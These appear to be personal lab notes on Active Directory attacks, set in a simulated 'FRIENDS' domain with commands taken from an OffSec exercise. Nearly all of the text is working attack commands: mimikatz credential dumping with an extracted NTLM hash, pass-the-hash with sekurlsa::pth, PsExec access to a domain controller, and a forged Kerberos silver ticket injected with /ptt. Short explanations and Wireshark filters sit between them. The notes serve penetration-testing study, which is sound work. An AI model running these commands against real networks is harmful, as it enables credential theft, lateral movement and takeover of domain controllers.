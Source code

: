 > compromise a domain client machine (domain user access) escalate privilege of domain user to local admin

> login with rgeller user on domain client

> rgeller is domain user and local admin 

> the compromised scenario has been simulated

> simulate admin user login into domain client

> open notepad as domain admin (FRIENDS\cbing:Password4)

+ NTLM hash extraction
```
cmd.exe
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
sekurlsa::tickets
7247e8d4387e76996ff3f18a34316fdd (cbing)
```

+ NTLM Hash to TGT/TGS 
```
sekurlsa::pth /user:jeff_admin /domain:corp.com 
/ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
sekurlsa::pth /user:cbing /domain:FRIENDS.local 
/ntlm:7247e8d4387e76996ff3f18a34316fdd /run:PowerShell.exe
klist
```

> POWERSHELL PROCESS OPENED WITH CBING BUT SOMETIME DOESNT CONTAIN TGT - GET TGT AS FOLLOWS
```
net use \\dc01
net use \\FRIENDS-DC
```

> OPEN CMD WITH CBING TGT
```
.\PsExec.exe \\dc01 cmd.exe
.\PsExec64.exe \\FRIENDS-DC cmd.exe
```

> WIRESHARK
```
--ip.addr==192.168.174.140&&!dns
--ip.addr==192.168.174.140&&!dns&&tcp.port eq 88
```

### PASS THE TICKET (SILVER TIKCET)
```
whoami /user
kerberos::purge
kerberos::list
kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587-2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP  /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```
> The silver ticket command requires 
> + a username (/user), 
> + domain name (/domain)
> + the domain SID (/sid), which is highlighted above
> + the fully qualified host name of the service (/target)
> + the service type (/service:HTTP)
> + the password hash of the iis_service service account (/rc4) 
